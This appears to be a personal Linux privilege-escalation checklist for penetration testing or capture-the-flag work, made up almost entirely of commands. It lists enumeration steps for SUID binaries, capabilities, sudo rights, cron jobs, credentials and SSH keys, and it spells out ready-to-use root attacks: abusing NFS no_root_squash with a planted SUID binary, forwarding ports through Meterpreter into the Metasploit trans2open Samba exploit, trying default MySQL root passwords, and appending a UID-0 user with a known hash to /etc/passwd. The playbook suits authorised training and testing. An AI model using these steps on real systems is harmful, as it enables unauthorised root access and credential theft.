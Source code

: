 My path to manually PE: 

**capabilities** are a fine‑grained way to give a process some—but not all—of the privileges normally reserved for root. Instead of “all or nothing” (setuid root), you can grant just the permissions you need.

Capabilities: 
which gcc
which cc
which python
which perl
which wget
which curl
which fetch
which nc
which ncat
which nc.traditional
which socat

Compilation? (Very Back Burner)
file /bin/bash
uname -a
cat /etc/*-release
cat /etc/issue


What Arch?
file /bin/bash

Kernel?
uname -a

Issue/Release?
cat /etc/issue
cat /etc/*-release

Are we a real user?
sudo -l
ls -lsaht /etc/sudoers

Are any users a member of exotic groups?
groups <user>


Check out your shell's environment variables...
env
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Users?
cd /home/
ls -lsaht

Web Configs containing credentials?
cd /var/www/html/
ls -lsaht

SUID Binaries?
find / -perm -u=s -type f 2>/dev/null

GUID Binaries?
find / -perm -g=s -type f 2>/dev/null

SUID/GUID/SUDO Escalation:
https://gtfobins.github.io/

Binary/Languages with "Effective Permitted" or "Empty Capability" (ep):
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.
getcap -r / 2>/dev/null


We need to start monitoring the system if possible while performing our enumeration...
https://github.com/DominicBreuker/pspy/blob/master/README.md
cd /var/tmp/
File Transfer --> pspy32
File Transfer --> pspy64
chmod 755 pspy32 pspy64
./pspy<32/64>

What does the local network look like?
netstat -antup
netstat -tunlp

Is anything vulnerable running as root?
ps aux | grep -i 'root' --color=auto

MYSQL Credentials? Root Unauthorized Access?
mysql -uroot -p
Enter Password:
root : root
root : toor
root :

A quick look at etc to see if any user-level people did special things:
cd /etc/
ls -lsaht
Anything other than root here?
• Any config files left behind?
→ ls -lsaht |grep -i ‘.conf’ --color=auto

• If we have root priv information disclosure - are there any .secret in /etc/ files?
→ ls -lsaht |grep -i ‘.secret’ --color=aut

SSH Keys I can use perhaps for even further compromise?
ls -lsaR /home/

Quick look in:
ls -lsaht /var/lib/
ls -lsaht /var/db/

Quick look in:
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/

File Transfer Capability? What can I use to transfer files?
which wget
which curl
which nc
which fetch (BSD)
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

NFS? Can we exploit weak NFS Permissions?
cat /etc/exports
no_root_squash?
https://recipeforroot.com/attacking-nfs-shares/

[On Attacking Machine]
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machine's user-level privilege.>

[On Target Machine]
user@host$ ./suid


Where can I live on this machine? Where can I read, write and execute files?
/var/tmp/
/tmp/
/dev/shm/

Any exotic file system mounts/extended attributes?
cat /etc/fstab

Forwarding out a weak service for root priv (with meterpreter!):
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.
https://www.offensive-security.com/metasploit-unleashed/portfwd/

Forwarding out netbios-ssn EXAMPLE:
meterpreter> portfwd add –l 139 –p 139 –r [target remote host]
meterpreter> background
use exploit/linux/samba/trans2open
set RHOSTS 0.0.0.0
set RPORT 139
run

Can we write as a low-privileged user to /etc/passwd?
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd
su siren
id

Cron.
crontab –u root –l

Look for unusual system-wide cron jobs:
cat /etc/crontab
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created?
find / -user miguel 2>/dev/null

Any mail? mbox in User $HOME directory?
cd /var/mail/
ls -lsaht
